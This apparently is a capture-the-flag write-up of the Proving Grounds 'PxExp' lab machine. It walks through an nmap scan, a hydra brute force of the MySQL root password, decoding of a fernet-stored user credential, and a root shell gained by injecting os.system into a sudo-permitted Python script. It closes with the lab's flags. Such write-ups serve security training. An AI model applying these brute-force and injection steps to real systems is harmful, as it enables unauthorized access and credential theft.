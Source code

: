 ```yaml
---
title: PxExp
categories: [Proving Grounds Play]
tags: [Password Bruteforce, PrivEsc, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  PxExp Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled.png)

```bash
IP : 192.168.249.139
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pyexp]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 11:44 EDT
Nmap scan report for 192.168.249.139
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 47
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Speaks41ProtocolNew, IgnoreSigpipes, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Support41Auth, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <Y-t"G#s>{qEC`:@p7`]
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:26:C6:0F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## MySQL Enumeration ⤵️

Lets try hydra for mysql login with user as root →

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.249.139 -t 4
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%201.png)

Got credentials as →

```bash
root : prettywoman
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%202.png)

Now lets dig deeper →

```bash
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)
MariaDB [data]> select * from fernet \G ;
*************************** 1. row ***************************
cred: gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
keyy: UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
1 row in set (0.001 sec)

ERROR: No query specified

MariaDB [data]>
```
{: .nolineno}

Now I searched for fernet decode and  I got this site →

[https://asecuritysite.com/tokens/ferdecode](https://asecuritysite.com/tokens/ferdecode)

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%203.png)

```bash
credentials ->
lucy  :  wJ9`"Lemdv9[FEw-
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%204.png)

Now lets find path to root →

```bash
lucy@pyexp:~$ 
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/sh")
# exit
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/bash"); 
root@pyexp:/home/lucy# whoami
root
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
root@pyexp:/home/lucy# cd ~
root@pyexp:~# ls -al
total 32
drwx------  3 root root 4096 Aug 10  2020 .
drwxr-xr-x 18 root root 4096 Aug 10  2020 ..
-rw-------  1 root root    5 Aug 10  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 10  2020 .local
-rw-------  1 root root 2731 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 10  2020 root.txt
root@pyexp:~# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
root@pyexp:~#
root@pyexp:/home/lucy# ls
user.txt
root@pyexp:/home/lucy# cat user.txt
8ca196f62e91847f07f8043b499bd9be
root@pyexp:/home/lucy#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }